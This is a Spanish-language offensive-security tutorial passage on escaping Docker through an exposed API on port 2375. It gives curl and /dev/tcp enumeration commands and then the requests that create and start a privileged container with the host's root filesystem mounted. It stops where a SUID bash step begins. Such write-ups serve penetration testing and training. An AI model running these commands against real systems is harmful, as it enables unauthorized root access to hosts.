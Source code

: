 ### Enumeración

Para verificar que existe una API de Docker, se suele enviar una cadena vacía a todo el rango de IPs de la subred en la que se encuentre, por el puerto 2375 y si devuelve un código de estado exitoso es que el puerto está abierto.

```bash
echo '' > /dev/tcp/172.17.0.1/2375
```

![Untitled](/assets/Privesc/Docker-Breakout/Untitled 18.png)

También se podría comprobar enviando una petición por curl:

```bash
# Comprobar la versión de docker
curl -s "http://172.17.0.1:2375/version" | jq

# Comprobar imágenes existentes
curl -s "http://172.17.0.1:2375/images/json" | jq

# Comprobar imágenes existentes
curl -s "http://172.17.0.1:2375/containers/json" | jq
```

### Explotación

Se creará un contenedor que montará toda la raíz de la máquina host en el nuevo contenedor.

Nota: Se debe especificar el nombre del contenedor en el parámetro “name” y se debe poner el nombre de la imagen correspondiente en “Image”

```bash
{% raw %}
curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/create?name=test -d '{"Image":"ubuntu:latest", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
{% endraw %}
```

Esto devolverá un ID el cual se debe copiar:

![Untitled](/assets/Privesc/Docker-Breakout/Untitled 19.png)

ccf0aa17b28c8a37da810e00b2614e658f81e33a7287069a7b8787a42951e18e

Ahora se debe correr el contenedor con el siguiente comando:

Nota: En el campo ID se debe ingresar el ID proporcionado en el comando anterior el cual corresponde al del contenedor.

```bash
curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/<ID>/start?name=test
```

Ahora toca la ejecución de comandos. Ya la raíz de la máquina host está montada en el directorio “/mnt” del contenedor por lo que ahora se ejecutará un comando para añadir el permiso SUID a la “/bin/bash”.
